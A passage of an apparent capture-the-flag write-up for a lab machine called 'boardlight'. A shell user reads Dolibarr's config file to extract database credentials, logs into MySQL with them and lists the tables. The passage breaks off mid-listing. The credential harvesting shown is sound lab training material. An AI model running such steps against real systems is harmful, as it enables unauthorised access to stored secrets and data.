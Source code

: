 
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs$ cat conf/conf.php | grep 'dolibarr_main_db'
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
```

However, the only user stored in the dolibarr database that is interesting is dolibarr (because I already know that the password of admin is admin):

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs$ mysql -udolibarrowner -p'serverfun2$2023!!'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 197
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| dolibarr           |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use dolibarr;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------------------------------------------------+
| Tables_in_dolibarr                                          |
+-------------------------------------------------------------+
| llx_accounting_account                                      |
| llx_accounting_bookkeeping                                  |
| llx_accounting_bookkeeping_tmp                              |
| llx_accounting_fiscalyear                                   |
| llx_accounting_groups_account                               |
| llx_accounting_journal                                      |
| llx_accounting_system                                       |
| llx_actioncomm                                              |
| llx_actioncomm_extrafields                                  |
| llx_actioncomm_reminder                                     |
| llx_actioncomm_resources                                    |
| llx_adherent                                                |
| llx_adherent_extrafields                                    |
| llx_adherent_type                                           |
```